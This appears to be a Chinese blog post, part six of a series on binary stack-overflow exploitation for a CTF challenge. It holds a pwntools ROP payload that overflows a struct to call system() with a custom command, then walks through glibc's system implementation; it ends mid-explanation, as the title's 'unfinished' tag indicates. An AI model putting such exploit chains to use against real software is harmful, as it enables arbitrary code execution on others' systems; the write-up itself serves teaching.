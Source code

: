 ```yaml
---
id: 781
layout: post
title: '二进制安全之栈溢出（六）[未完待续]'
date: 2017-10-25 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


[上一篇文章](https://virusdefender.net/index.php/archives/780/)在执行 `system` 函数的时候是使用的 libc 中的 `/bin/sh` 字符串，如果我们想运行一个自定义的命令那就不一定能在内存中找到了，万幸的是 `student` 结构体的内存也是可以控制的，我们可以在结构体中也放入一个字符串，这样就可以实现任意参数了。

可以把参数放在结构体的开头，shellcode 大致就是这个样子的

```python
from pwn import *

student = 0x7fffffffe2f0
cmd = "cat flag\x00"
shellcode = "1925\n" + cmd
shellcode += "A" * (0x7fffffffe348 - student - len(cmd))
# pop rdi; ret
shellcode += p64(0x0000000000400803)
# cmd
shellcode += p64(student)
# system
shellcode += p64(0x400550)

print shellcode
```

但是在 GDB 中直接运行会发现进程虽然启动了 `/bin/sh`，但是 `cat` 没有执行，为了调试这个问题，还是先搞清楚 `system` 的实现比较好。

标准库里面的 `system` 在 Linux 下实际就是 `__libc_system`

```clike
int
__libc_system (const char *line)
{
  if (line == NULL)
    /* Check that we have a command processor available.  It might
       not be available after a chroot(), for example.  */
    return do_system ("exit 0") == 0;

  return do_system (line);
}
```

然后 `do_system` 才是真正的逻辑，在 GitHub 上有人 mirror 了一份[源码](https://github.com/bminor/glibc/blob/6547ec0ad8451d72e43ba4ea38c2300c67eb501a/sysdeps/posix/system.c#L55)，简单的原理就是 `fork` 之后在子进程 `execve`，其中参数是 

```clike
new_argv[0] = SHELL_NAME;  // 源码开头定义的，目前是 sh
new_argv[1] = "-c";
new_argv[2] = line;  // 就是 system 函数的参数
new_argv[3] = NULL;  // 代表数组结束
```
